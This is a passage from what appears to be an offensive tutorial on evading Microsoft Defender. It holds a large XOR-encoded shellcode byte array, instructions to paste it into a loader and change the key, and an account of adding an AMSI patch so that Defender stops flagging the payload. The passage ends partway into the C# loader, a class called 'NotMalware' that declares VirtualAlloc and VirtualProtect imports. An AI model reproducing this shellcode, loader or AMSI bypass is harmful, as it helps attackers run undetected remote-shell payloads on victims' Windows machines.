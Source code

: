 ```csharp
0xa0, 0x14, 0xdf, 0xb8, 0xac, 0xb4, 0x90, 0x5c, 0x5c, 0x5c, 0x1d, 0x0d, 0x1d, 0x0c, 0x0e, 0x14, 0x6d, 0x8e, 0x0d, 0x0a, 0x39, 0x14, 0xd7, 0x0e, 0x3c, 0x14, 0xd7, 0x0e, 0x44, 0x14, 0xd7, 0x0e, 0x7c, 0x11, 0x6d, 0x95, 0x14, 0xd7, 0x2e, 0x0c, 0x14, 0x53, 0xeb, 0x16, 0x16, 0x14, 0x6d, 0x9c, 0xf0, 0x60, 0x3d, 0x20, 0x5e, 0x70, 0x7c, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0xbe, 0xb1, 0x0e, 0x14, 0xd7, 0x0e, 0x7c, 0xd7, 0x1e, 0x60, 0x14, 0x5d, 0x8c, 0x3a, 0xdd, 0x24, 0x44, 0x57, 0x5e, 0x1d, 0x0d, 0x53, 0xd9, 0x2e, 0x5c, 0x5c, 0x5c, 0xd7, 0xdc, 0xd4, 0x5c, 0x5c, 0x5c, 0x14, 0xd9, 0x9c, 0x28, 0x3b, 0x14, 0x5d, 0x8c, 0xd7, 0x14, 0x44, 0x18, 0xd7, 0x1c, 0x7c, 0x15, 0x5d, 0x8c, 0x0c, 0xbf, 0x0a, 0x14, 0xa3, 0x95, 0x11, 0x6d, 0x95, 0x1d, 0xd7, 0x68, 0xd4, 0x14, 0x5d, 0x8a, 0x14, 0x6d, 0x9c, 0xf0, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0x64, 0xbc, 0x29, 0xad, 0x10, 0x5f, 0x10, 0x78, 0x54, 0x19, 0x65, 0x8d, 0x29, 0x84, 0x04, 0x18, 0xd7, 0x1c, 0x78, 0x15, 0x5d, 0x8c, 0x3a, 0x1d, 0xd7, 0x50, 0x14, 0x18, 0xd7, 0x1c, 0x40, 0x15, 0x5d, 0x8c, 0x1d, 0xd7, 0x58, 0xd4, 0x14, 0x5d, 0x8c, 0x1d, 0x04, 0x1d, 0x04, 0x02, 0x05, 0x06, 0x1d, 0x04, 0x1d, 0x05, 0x1d, 0x06, 0x14, 0xdf, 0xb0, 0x7c, 0x1d, 0x0e, 0xa3, 0xbc, 0x04, 0x1d, 0x05, 0x06, 0x14, 0xd7, 0x4e, 0xb5, 0x17, 0xa3, 0xa3, 0xa3, 0x01, 0x15, 0xe2, 0x2b, 0x2f, 0x6e, 0x03, 0x6f, 0x6e, 0x5c, 0x5c, 0x1d, 0x0a, 0x15, 0xd5, 0xba, 0x14, 0xdd, 0xb0, 0xfc, 0x5d, 0x5c, 0x5c, 0x15, 0xd5, 0xb9, 0x15, 0xe0, 0x5e, 0x5c, 0x4d, 0x07, 0xf0, 0x4a, 0x10, 0xf3, 0x1d, 0x08, 0x15, 0xd5, 0xb8, 0x10, 0xd5, 0xad, 0x1d, 0xe6, 0x10, 0x2b, 0x7a, 0x5b, 0xa3, 0x89, 0x10, 0xd5, 0xb6, 0x34, 0x5d, 0x5d, 0x5c, 0x5c, 0x05, 0x1d, 0xe6, 0x75, 0xdc, 0x37, 0x5c, 0xa3, 0x89, 0x36, 0x56, 0x1d, 0x02, 0x0c, 0x0c, 0x11, 0x6d, 0x95, 0x11, 0x6d, 0x9c, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9e, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9d, 0x1d, 0xe6, 0xb6, 0x53, 0x83, 0xbc, 0xa3, 0x89, 0x14, 0xd5, 0x9b, 0x36, 0x4c, 0x1d, 0x04, 0x10, 0xd5, 0xbe, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0xc5, 0xf9, 0x28, 0x3d, 0xa3, 0x89, 0xd9, 0x9c, 0x28, 0x56, 0x15, 0xa3, 0x92, 0x29, 0xb9, 0xb4, 0xcf, 0x5c, 0x5c, 0x5c, 0x14, 0xdf, 0xb0, 0x4c, 0x14, 0xd5, 0xbe, 0x11, 0x6d, 0x95, 0x36, 0x58, 0x1d, 0x04, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x22, 0x09, 0x14, 0xdf, 0x98, 0x7c, 0x02, 0xd5, 0xaa, 0x36, 0x1c, 0x1d, 0x05, 0x34, 0x5c, 0x4c, 0x5c, 0x5c, 0x1d, 0x04, 0x14, 0xd5, 0xae, 0x14, 0x6d, 0x95, 0x1d, 0xe6, 0x04, 0xf8, 0x0f, 0xb9, 0xa3, 0x89, 0x14, 0xd5, 0x9f, 0x15, 0xd5, 0x9b, 0x11, 0x6d, 0x95, 0x15, 0xd5, 0xac, 0x14, 0xd5, 0x86, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x21, 0x74, 0x04, 0x1d, 0x0b, 0x05, 0x34, 0x5c, 0x1c, 0x5c, 0x5c, 0x1d, 0x04, 0x36, 0x5c, 0x06, 0x1d, 0xe6, 0x57, 0x73, 0x53, 0x6c, 0xa3, 0x89, 0x0b, 0x05, 0x1d, 0xe6, 0x29, 0x32, 0x11, 0x3d, 0xa3, 0x89, 0x15, 0xa3, 0x92, 0xb5, 0x60, 0xa3, 0xa3, 0xa3, 0x14, 0x5d, 0x9f, 0x14, 0x75, 0x9a, 0x14, 0xd9, 0xaa, 0x29, 0xe8, 0x1d, 0xa3, 0xbb, 0x04, 0x36, 0x5c, 0x05, 0xe7, 0xbc, 0x41, 0x76, 0x56, 0x1d, 0xd5, 0x86, 0xa3, 0x89
```
With the shellcode obfuscated, let's go to our IDE and use that.


## Evade MS Defender
Now that we have the encrypted shellcode, paste the latter in the buff value (see code below), do replace the demo key of 0x5c  with you own as well. 

You will notice below in the source code below that, we also have added an AMSI Patch, although XOR’ing the shellcode alone did get us a shell, after testing we encountered few issues, MS Defender prompting the user to scan or quarantine our payload though Defender itself does not terminate our session. It is only after we have added ANSI bypass in our code, that MS Defender really stayed quiet for good. And below is the final code.

```csharp
using System;
using System.Linq;
using System.Reflection;
using System.Runtime.InteropServices;

namespace NotMalware
{
    internal class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect);

        [DllImport("kernel32")]
```